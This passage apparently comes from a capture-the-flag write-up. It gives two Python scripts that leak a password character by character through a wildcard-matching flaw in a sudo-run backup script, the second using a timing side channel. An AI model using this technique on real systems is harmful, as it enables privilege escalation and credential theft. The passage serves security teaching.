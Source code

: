     #!/usr/bin/env python3
    
    import subprocess
    import string
    
    leaked_password = ""
    
    while True:
        for c in string.printable[:-5]:
            if c in '*\\%':
                continue
            print(f"\r{leaked_password}{c}", flush=True, end="")
            result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
            if "Password confirmed" in result.stdout.decode():
                leaked_password += c
                break
        else:
            break
    print(f'\r{leaked_password}        ')
    

Running this takes 35-40 seconds, and finds the password:

![](../img/brute-password-1.gif)

I can make this faster. It hangs each time it finds the correct password
because the process on success takes longer to run. What if I give
`subprocess.run` a timeout? I’ll have to assume that any time it hits the
timeout, it’s because the password was accepted:

    
    
    #!/usr/bin/env python3
    
    import subprocess
    import string
    
    leaked_password = ""
    
    while True:
        for c in string.printable[:-5]:
            if c in '*\\%':
                continue
            print(f"\r{leaked_password}{c}", flush=True, end="")
            success = False
            try:
                result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, timeout=0.3)
            except subprocess.TimeoutExpired:
                 success = True
            if success or "Password confirmed" in result.stdout.decode():
                leaked_password += c
                break
        else:
            break
    print(f'\r{leaked_password}        ')
    